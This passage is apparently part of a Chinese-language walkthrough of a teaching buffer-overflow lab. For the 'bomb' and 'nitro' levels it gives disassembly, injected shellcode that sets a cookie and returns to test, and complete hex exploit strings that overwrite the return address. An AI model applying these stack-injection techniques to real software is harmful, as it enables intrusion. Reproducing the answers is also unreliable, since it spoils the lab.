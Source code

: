 ```asm
  4010d2:	e8 29 fd ff ff       	callq  400e00 <exit@plt>
```
这里要求我们进行代码注入，不过代码稍有不同。
注入代码如下：
```asm
   0:	c7 04 25 a4 61 60 00 	movl   $0x51f6fe1b,0x6061a4
   7:	1b fe f6 51
   b:	68 87 10 40 00       	pushq  $0x401087
  10:	c3                   	retq
```

答案如下：
```asm
c7 04 25 a4 61 60 00 1b
fe f6 51 68 87 10 40 00
c3 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b0 3c 68 55 00 00 00 00
```

## bomb
这一步要求我们进行无感攻击，只需要回到test继续执行就好。
```asm
000000000040119d <test>:
  40119d:	53                   	push   %rbx
  40119e:	48 83 ec 10          	sub    $0x10,%rsp
  4011a2:	b8 00 00 00 00       	mov    $0x0,%eax
  4011a7:	e8 d7 ff ff ff       	callq  401183 <uniqueval>
  4011ac:	89 44 24 0c          	mov    %eax,0xc(%rsp)
  4011b0:	b8 00 00 00 00       	mov    $0x0,%eax
  4011b5:	e8 1b 04 00 00       	callq  4015d5 <getbuf>
  4011ba:	89 c3                	mov    %eax,%ebx
```
可以看到，只需要回到`4011ba`这个位置就可以，而后将返回值eax修改为cookie即可。

构造攻击指令如下:
```asm
   0:	b8 1b fe f6 51       	mov    $0x51f6fe1b,%eax
   5:	68 ba 11 40 00       	pushq  $0x4011ba
   a:	c3                   	retq
```

最终得到的答案如下:
```
b8 1b fe f6 51 68 ba 11
40 00 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b0 3c 68 55 00 00 00 00
```

## nitro
这一次testn调用n次getbufn，任务要求是getn返回cookie给testn:
```asm
0000000000401220 <testn>:
  401220:	53                   	push   %rbx
  401221:	48 83 ec 10          	sub    $0x10,%rsp
  401225:	b8 00 00 00 00       	mov    $0x0,%eax
  40122a:	e8 54 ff ff ff       	callq  401183 <uniqueval>
  40122f:	89 44 24 0c          	mov    %eax,0xc(%rsp)
  401233:	b8 00 00 00 00       	mov    $0x0,%eax
  401238:	e8 ae 03 00 00       	callq  4015eb <getbufn>
  40123d:	89 c3                	mov    %eax,%ebx
```